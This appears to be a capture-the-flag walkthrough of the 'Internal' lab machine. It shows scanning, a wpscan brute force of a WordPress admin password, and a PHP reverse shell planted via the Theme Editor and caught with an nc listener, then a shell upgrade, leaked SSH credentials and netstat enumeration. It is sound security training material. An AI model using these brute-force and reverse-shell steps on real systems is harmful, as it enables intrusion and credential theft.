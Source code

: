 # Internal
* IP = 10.10.103.219
* Add to /etc/hosts as Internal.thm

## Initial Enumerating And Scanning:
- Nmap scan to discover open ports: `nmap -sV -sC -O -p 21,22,80,8080,139,143,445,443,25,110 internal.thm`
- **nmap Scan Results:**
```
PORT     STATE  SERVICE      VERSION
21/tcp   closed ftp
22/tcp   open   ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
25/tcp   closed smtp
80/tcp   open   http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp  closed pop3
139/tcp  closed netbios-ssn
143/tcp  closed imap
443/tcp  closed https
445/tcp  closed microsoft-ds
8080/tcp closed http-proxy
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.00 seconds
```
- We can see there is a open `http` on port `80`
- Also note of `8080/tcp closed http-proxy`

- dirsearch to search for hidden directories and files on the web server: `dirsearch -u internal.thm -x 400,500 -r -t 100`
- **dirsearch Scan Results:**
```
[14:08:56] Starting: 
[14:09:03] 403 -  277B  - /.ht_wsr.txt                                      
[14:09:03] 403 -  277B  - /.htaccess.bak1                                   
[14:09:03] 403 -  277B  - /.htaccess.save                                   
[14:09:03] 403 -  277B  - /.htaccess_orig
[14:09:03] 403 -  277B  - /.htaccess.orig                                   
[14:09:03] 403 -  277B  - /.htaccess_sc
[14:09:03] 403 -  277B  - /.htaccessBAK                                     
[14:09:03] 403 -  277B  - /.htaccess_extra
[14:09:03] 403 -  277B  - /.htaccess.sample
[14:09:03] 403 -  277B  - /.htaccessOLD
[14:09:03] 403 -  277B  - /.htm                                             
[14:09:03] 403 -  277B  - /.html
[14:09:03] 403 -  277B  - /.htaccessOLD2                                    
[14:09:03] 403 -  277B  - /.htpasswd_test                                   
[14:09:03] 403 -  277B  - /.httr-oauth
[14:09:03] 403 -  277B  - /.htpasswds
[14:09:04] 403 -  277B  - /.php                                             
[14:09:12] 301 -  311B  - /blog  ->  http://internal.thm/blog/              
[14:09:12] 200 -    2KB - /blog/wp-login.php                                
[14:09:13] 200 -   18KB - /blog/                                            
[14:09:20] 301 -  317B  - /javascript  ->  http://internal.thm/javascript/  
[14:09:26] 301 -  317B  - /phpmyadmin  ->  http://internal.thm/phpmyadmin/  
[14:09:27] 200 -    3KB - /phpmyadmin/doc/html/index.html                   
[14:09:27] 200 -    3KB - /phpmyadmin/                                      
[14:09:27] 200 -    3KB - /phpmyadmin/index.php                             
[14:09:30] 403 -  277B  - /server-status/                                   
[14:09:30] 403 -  277B  - /server-status                                    
[14:09:37] 200 -    2KB - /wordpress/wp-login.php                           
[14:09:38] 404 -   51KB - /wordpress/                                       
                                                                             
Task Completed
```
- Under the directory `http://internal.thm/blog/wp-login.php` we have a login page for `wordpress`

![alt text](images/internal_WP-LOGIN-SS.png)
- Basic enumeration on the page with the login credentials using `admin:admin` can see that there is a active user called admin

![alt text](images/WP-ADMIN-SS.png)

- With this information I can try and run a `wpscan` to find the password
- `wpscan --url http://internal.thm/blog/wp-login.php --usernames admin --passwords rockyou.txt -t 100`
- **wpscan Scan Results:**
```
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Nov 19 14:42:53 2024
[+] Requests Done: 4219
[+] Cached Requests: 4
[+] Data Sent: 1.487 MB
[+] Data Received: 20.636 MB
[+] Memory used: 320.254 MB
[+] Elapsed time: 00:02:17
```

```
I was able to find that the login credentials are Username: admin, Password: my2boys
```

## Gaining Access To The Machine:
- Since we have an admin account we can use the `Theme Editor` to get ourselves a reverse shell on the machine
- We can use this `php-reverse-shell` from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

- I'm going to replace the `archive.php` directory

![alt text](php-shell.png)

- In my terminal I have the following listener setup: `rlwrap nc -lvnp 53`
- I'm listing on port `53` as it is commonly unblocked on outgoing firewalls

- Now when I go to `http://internal.thm/blog/wp-content/themes/twentyseventeen/archive.php` active reverse shell on the machine
```
listening on [any] 53 ...
connect to [10.2.17.217] from (UNKNOWN) [10.10.103.219] 41522
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 02:11:39 up  1:27,  0 users,  load average: 0.00, 0.02, 0.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

- I upgraded my shell using this python command `python -c 'import pty;pty.spawn("/bin/bash")';`

- In this situation the first thing i'll look for is `.txt` files using this command `find / -name "*.txt" -type f 2>/dev/null`
- I was able to find a text file in the `/opt` directory called `wp-save.txt` so its worth taking a look at
- **Contents of `wp-save.txt`:**
```
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

- We now have some `SSH` login credentials:
```
aubreanna:bubb13guM!@#123
```

## Post SSH:

- Now that I'm connected fully to `aubreanna`'s machine I want to try and take a look at the closed webserver I seen earlier from my nmap scan
- Using `netstat -ano` we can look at the network connections on the machine
- **netstat -ano Results:**
```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:44243         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0    324 10.10.103.219:22        10.2.17.217:51700       ESTABLISHED on (0.42/0/0)
tcp        0      0 10.10.103.219:41524     10.2.17.217:53          CLOSE_WAIT  off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
tcp6       1      0 10.10.103.219:80        10.2.17.217:35108       CLOSE_WAIT  keepalive (5183.12/0/0)
udp        0      0 127.0.0.53:53           0.0.0.0:*                           off (0.00/0/0)
udp        0      0 10.10.103.219:68        0.0.0.0:*                           off (0.00/0/0)
raw6       0      0 :::58                   :::*                    7           off (0.00/0/0)
```

- This confirms that there is a webserver running on `127.0.0.1` or `localhost` on port `8080`